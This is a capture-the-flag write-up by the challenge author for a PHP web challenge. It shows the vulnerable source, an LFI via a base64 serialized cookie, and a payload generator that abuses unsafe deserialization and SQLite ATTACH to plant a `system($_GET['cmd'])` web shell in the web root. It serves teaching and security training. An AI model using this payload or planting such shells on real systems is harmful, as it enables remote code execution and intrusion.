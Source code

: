```yaml
---
title: Pretty Hyper Phrog (Cyberleague Quarterfinals 2022)
date: 2022-12-23 15:03
excerpt: Cyberleague Quarterfinals 2022 - Pretty Hyper Phrog
categories:
    - Authored Challenges
tags:
    - web
---
```


Writeup for one of the web challenges I set for [Cyberleague
2022](https://cyberleague.co/).

Here is the [source](/files/clqf-2022/php.zip)

The main vuln is PHP deserialization. In PHP, this allows
for arbitrary properties to be assigned to objects. In addition, the class of
the object can also be controlled. With these interesting capabilities of unsafe
deserialization, I made a 2-phase challenge that will require one to leverage
both concepts + some other exotic concepts to ultimately get RCE.

### Phase 1: LFI

Since the source wasn't provided in the CTF, our first goal is to get some sort
of LFI to get the complete source. 


Here's a sample "password", our attack vector:

```base64
Tzo0OiJVc2VyIjozOntzOjc6InBpY3R1cmUiO3M6MTY6InN0YXRpYy9waHJvZy5naWYiO3M6ODoidXN lcm5hbWUiO3M6ODoic2FtdXpvcmEiO3M6NDoidXVpZCI7czoxMzoiNjNhNDYyNTViNGM5YiI7fQ==
```

We know that each user's password is a PHP serialized object, and there is a
property `picture` that is pointing to `static/phrog.gif`. After some
experimenting we see that this is passed to `file_get_contents`, which we can
use to enumerate the source.

---

### Phase 2: RCE

We not only want LFI, we want RCE too! With big and well-known frameworks, PHP
deserialization is a piece of cake, as there are ready-made RCE gadget chains
online. However, this is a custom implementation so it doesn't exist. We need to
make it ourselves :(

Some of the leaked files:

index.php
```php
<?php
require("user.php");
require("util.php");

$conn = new Conn;

if (array_key_exists("password", $_COOKIE) === false) {
    echo file_get_contents("static/index.html");
    die();
}
$temp = unserialize(base64_decode($_COOKIE["password"]));
$conn->query = "select username, uuid from users where uuid = :uuid";
$conn->params = array(":uuid" => $temp->uuid);
$result = $conn->query();
if ($result) {
    $user = $temp;
} else {
    header("Location: /login.php");
}
?>

<!DOCTYPE html>
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
</head>
<body>
    <div class="container mt-5 px-auto">
        <div class="row">
            <div class="col">
                 <?php echo $user->whoami(); ?>
            </div>
            <div class="col">
                <p>I hope u like phrogs</p>
            </div>
        </div>
    </div>
</body>
```

user.php
```php
<?php
class User {
    public $picture;
    public $username;
    public $uuid;

    public function __construct(string $username, string $uuid) {
        $this->username = $username;
        $this->picture = "static/phrog.gif";
        $this->uuid = $uuid;
    }
    
    public function whoami() {
        $picture = base64_encode(file_get_contents($this->picture));
        return "
            <div class='card' style='width: 50%'>
                <img class='card-img-top' src='data:image/gif;base64,{$picture}' class='rounded' alt='phrog'>
                <div class='card-body'>
                    <h5 class='card-title'>User: {$this->username}</h5>
                    <p>uuid: {$this->uuid}</p>
                </div>
            </div>
        ";
    }
}
?>
```

util.php
```php
<?php
class Conn {
    public $query;
    public $params;

    public function __call(string $name, array $arguments) {
        $conn = new SQLite3("/sqlite3/db");
        $query = $this->query;
        foreach ($this->params as $key=>$value) {
            $value = $conn->escapeString($value);
            $query = str_replace($key, "'$value'", $query);
        }

        // in case we ever need to execute multiple queries
        $queries = explode("; ", $query);
        foreach ($queries as $temp) {
            $result = $conn->query($temp);
        }
        if ($result !== false) {
            if ($result->numColumns()) {
                return $result->fetchArray();
            } else {
                return true;
            }
        } else {
            return $result;
        }
    }
}
?>
```

Some things to note:

1. In `Conn`, the query is being prepared manually. This could maybe give us
   SQLi, if we manage to bypass the (not so stringent) checks. Props to RVCTF
   who found an unintended solution via the weak escaping. (The reason why I had
   to implement my own query, is because we need multiple queries for the
   exploit - and I couldn't find a driver that could allow me to do that. So I
   exploded based on `; ` and ran each query manually.)
2. In `Conn`, `__call` is being used to invoke the query function. [This magic
   method](https://www.phptutorial.net/php-oop/php-__call/) defines a fallback
   for undefined properties that are invoked.

As you might guess based on the context of the challenge, we can change `$temp`
(and hence `$user`) into a `$Conn` object. This would allow us to control the
`$query` array in our poisoned object and execute our own queries via the
`->whoami()` call (since it doesn't exist on a `$Conn`, it will fallback to
`__call()`). While we do this, we also need to ensure that `->username` and
`->uuid` remains constant so we pass the check.

With this we can execute arbitrary SQL (should I call this SQLi?). But how to
get RCE?

SQLite uses a single-file database locally, instead of connecting to a remote
service. And we can attach new databases to arbitrary locations, which creates a
file with some binary content, as well as whatever we insert into the new
database. 

So in a fashion similar to PHP web shells, we can create a malicious SQLite
database in `/var/www/html`, create a table and insert a row with our web
shell, thus gaining RCE!

Below is the code to generate the payload:

```php
<?php
class Conn {
    public $username = 'samuzora';
    public $uuid = '63a46255b4c9b';
    public $query = "attach database './63a46255b4c9b.php' as test; create table test.a (payload text); insert into test.a values ('<?php system(\$_GET[\"cmd\"]) ?>')";
    public $params = array();
}
echo base64_encode(serialize(new Conn));
?>
```
